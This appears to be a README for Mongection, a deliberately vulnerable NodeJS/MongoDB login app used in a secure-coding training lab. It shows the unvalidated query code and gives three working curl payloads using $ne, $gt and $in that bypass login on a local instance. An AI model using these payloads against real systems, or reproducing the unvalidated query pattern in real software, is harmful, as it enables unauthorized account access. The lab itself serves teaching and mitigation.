 
# Mongection

<p align="center"><img  src="images/a1-banner.png"/></p>

Mongection is a simple NodeJS web application that simulates a login page. It has both `/register` and `/login` routes that, by communicating with a MongoDB, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **NoSQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/mongection
```

```sh
make install
```

Then simply visit [localhost:10001][App], as exemplified below:

<img src="images/attack0.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -X POST http://localhost:10001/register -H "Content-Type: application/json" --data '{"name":"bob", "email":"bob@example.com", "password":"bobisboss"}'
```
* Login as this second user now using command line:
```sh
curl -X POST http://localhost:10001/login -H "Content-Type: application/json" --data '{"email":"bob@example.com", "password":"bobisboss"}'
```

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of NoSQL queries

After reviewing [db.js](https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/mongection/src/db.js) file, it was possible to see that some input from users is concatenated with NoSQL queries, as shown in the following code snippets:

```js
const existUser = await User.findOne({email: email});
```

```js
const existsUser = await User.find({$and: [ { email: email}, { password: password} ]});
```

As no validation is being made on these variables, injected queries may be successfully executed in MongoDB. Some directives like `$ne` or `$gt`, if successfully injected, could bypass API authentication. 

#### 🔥

An attacker could create a malicious query such as `{"$ne":""}` and pass it to email and password fields. Since `$ne` is the not equals condition in MongoDB, this is querying all the entries in the logins collection where both `username` and `password` are not equal to "" (empty). 

Using `curl` on CLI interface, the malicious payload could be sent as shown bellow:

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$ne":""}, "password": {"$ne":""}}'
```

<p  align="center"><img  src="images/attack1.png"/></p>

The application will return the first user that MongoDB finds with a "Hello, Welcome Again!" message, demonstrating that authentication has been bypassed. There must be at least one user already registered in the database to recieve this message.

The same result could be reached if the attacker sent a payload using `$gt` (greater than) directive. The following query will search for entries with both `username` and `password `fields greater than "" (empty).

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$gt": ""}, "password": {"$gt": ""}}'
```
<p  align="center"><img  src="images/attack2.png"/></p>

Another possible malicious payload could use `$in` directive. The following query will iterate through every element of the given array and try each value listed for the `username` field. Also, `{"$gt":""}` will guarantee the `password` field is not evaluated.

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$in":["admin@example.com", "root@example", "ana@example.com", "bob"]}, "password": {"$gt":""}}'
```

<p  align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

* Run NoSQL queries in the database.

## PR Solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Mongection%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10001